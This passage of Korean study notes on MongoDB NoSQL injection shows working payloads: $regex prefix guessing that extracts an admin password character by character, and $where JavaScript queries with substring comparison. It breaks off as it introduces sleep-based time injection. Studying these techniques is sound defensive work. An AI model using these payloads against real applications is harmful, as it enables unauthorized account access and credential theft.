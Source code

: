 **글자 획득**
```
{"uid": "admin", "upw": {"$regex":"^a"}}
admin

{"uid": "admin", "upw": {"$regex":"^aa"}}
undefined

{"uid": "admin", "upw": {"$regex":"^ab"}}
undefined

{"uid": "admin", "upw": {"$regex":"^ap"}}
admin

...

{"uid": "admin", "upw": {"$regex":"^apple$"}} -> $ 마지막 글자인지 확인 하는듯
```

### $where 

**표현식** 
인자로 전달한 Javascript 표현식을 만족하는 데이터를 조회합니다. **Figure 7**을 살펴보면, 해당 연산자는 field에서 사용할 수 없는 것을 확인할 수 있습니다.

**Figure 7. where 연산자와 표현식**
```
> db.user.find({$where:"return 1==1"})
{ "_id" : ObjectId("5ea0110b85d34e079adb3d19"), "uid" : "guest", 
"upw" : "guest" }

> db.user.find({uid:{$where:"return 1==1"}})
error: { 
  "$err" : "Can't canonicalize query: BadValue $where cannot be applied to a field", 
  "code" : 17287
}
```


**substring**
해당 연산자로 Javascript 표현식을 입력하면, Blind SQL Injection에서 한 글자씩 비교했던 것과 같이 데이터를 알아낼 수 있습니다. **Figure 8**은 `upw`의 첫 글자를 비교해 데이터를 알아내는 쿼리입니다.

**Figure 8. where 연산자와 substring**
```
> db.user.find({$where: "this.upw.substring(0,1)=='a'"})
> db.user.find({$where: "this.upw.substring(0,1)=='b'"})
> db.user.find({$where: "this.upw.substring(0,1)=='c'"})
...
> db.user.find({$where: "this.upw.substring(0,1)=='g'"})
{ "_id" : ObjectId("5ea0110b85d34e079adb3d19"), "uid" : "guest", "upw" : "guest" }
```



**Sleep 함수를 통한 Time based Injection**
MongoDB는 `sleep` 함수를 제공합니다. 표현식과 함께 사용하면 지연 시간을 통해 참/거짓 결과를 확인할 수 있습니다. **Figure 9**은 `upw`의 첫 글자를 비교하고, 해당 표현식이 참을 반환할 때 `sleep` 함수를 실행하는 쿼리입니다.

